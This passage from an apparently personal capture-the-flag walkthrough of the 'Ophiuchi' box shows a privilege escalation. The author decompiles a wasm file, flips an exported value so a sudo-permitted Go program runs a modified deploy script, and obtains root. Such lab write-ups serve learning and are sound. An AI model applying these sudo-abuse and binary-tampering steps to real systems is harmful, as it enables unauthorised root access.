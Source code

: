 However, after running the sudo command, I received the following error:

```bash
sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

Going back to the code, I realised that if the value of `f` was not `1`, which is read from the wasm file, then it would not execute the deploy script. I copied the file to my local host and viewed the wasm file using wasm2wat which is the inverse of wat2wasm, which is used to translate the file from the binary format back to the text format (also known as a .wat).

After converting the file to text using the `wasm2wat main.wasm -o main.wat` command, the file contained the following:

```bash
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

If you recall from the `index.go` function, the code searched for ` init := instance.Exports["info"]` which in the file above was set to `0`. I changed the value to `1`, recompiled the code with wat2wasm and transferred it back to the host.

The final step was to run the `index.go` file with the modified `deploy.sh` script using the following command:

```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

I ran the command above and I was able to exploit the file to obtain `root`:

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Ophiuchi/img6.png"  style="width: 80%" />
</p>

That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.
